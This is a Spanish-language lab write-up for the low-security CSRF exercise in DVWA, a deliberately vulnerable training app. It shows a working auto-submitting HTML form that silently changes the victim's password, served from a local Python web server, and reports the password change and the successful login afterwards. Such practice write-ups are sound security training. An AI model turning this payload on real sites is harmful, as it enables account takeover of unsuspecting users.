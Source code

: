 
# 2.3-CSFR

# LOW

En este ejercicio, vamos a realizar la ejecución de un cambio automatico de la contraseña del usuario. Para ello vamos exponer un archivo html en nuestro servidor python para que actue sobre nuestra maquina DVWA cuando se acceda al contenido del mismo. Para ello vamos a indicar el siguiente contenido en nuestro archivo html:

```html

<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/vulnerabilities/csrf/">
      <input type="hidden" name="password&#95;new" value="pass" />
      <input type="hidden" name="password&#95;conf" value="pass" />
      <input type="hidden" name="Change" value="Change" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

```

Y ejecutamos nuestro servidor python desde el directorio donde tenemos alojado nuestro archivo:

    python3 -m http.server

Y tras acceder al mismo desde el navegador, podemos observar que la contraseña por defecto ha cambiado:

![Login Fail](./images/loginfail.png)

Y tras acceder con las credenciales nuevas, obtenemos acceso a nuestro panel:

![Imagen Dentro](./images/login.png)


